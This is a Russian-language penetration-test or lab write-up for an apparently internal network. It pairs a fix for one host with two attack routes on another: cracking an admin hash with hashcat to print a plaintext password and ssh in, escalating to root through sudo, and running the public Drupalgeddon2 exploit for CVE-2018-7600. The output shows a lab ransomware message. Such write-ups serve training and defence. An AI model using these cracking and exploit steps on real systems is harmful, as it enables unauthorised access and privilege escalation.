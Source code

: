 
### Фикс

- Поменять креды админа от wp.
- Переконфигурировать файл `/etc/sudoers`, убрав или изменив строку`www-data ALL=(ALL:ALL) NOPASSWD: /usr/bin/python`


## Atrium (10.11.2.11)

### Атака

#### Вариант 1

С помощью hascat'а крякнем пароль от пользователя admin, хеш которого мы получили с машины 10.11.2.10

```bash
hashcat -m 1800 -a 0 hashes.hash rockyou7.txt
> $6$g.7PD1hmRs69HVHL$h/.STarcTEGBMGL4grwdgMm2gMBLj12xWRgm/Vu1p5uJObiImx3aYPyyAGK5O7nYQ.GEKr/xskRhEf5ZkXd4t1:Destiny1
```

Залогинимся с кредами admin:Destiny1 по ssh к машине 10.11.2.11.

```bash
ssh admin@10.11.2.11
admin@10.11.2.11's password: 
Oh! Hello there! You've been infected by GachiRansom, send 300$ to paypal:b.harrington@gmail.com to get your unecnryption key.
```

Получим интересное сообщение, которое гласит что наша машина зараженна малварью. (См. [Востановление-системы](#Востановление-системы)).

Так как admin находится в sudo группе

```bash
admin@elto-portal2:~$ id
uid=1002(admin) gid=27(sudo) groups=27(sudo)
```

Без проблем зайдем под root'ом

```shell
admin@elto-portal2:~$ sudo su 
root@elto-portal2:/home/admin# id
uid=0(root) gid=0(root) groups=0(root)
```


#### Вариант 2

За счет [скана](#11) узнали версию drupal, она уязвима для CVE-2018-7600.
Нашли сплойт под это CVE https://github.com/dreadlocked/Drupalgeddon2, запустили его и получили usershell от www-data

```bash
ruby drupalgeddon2.rb
```
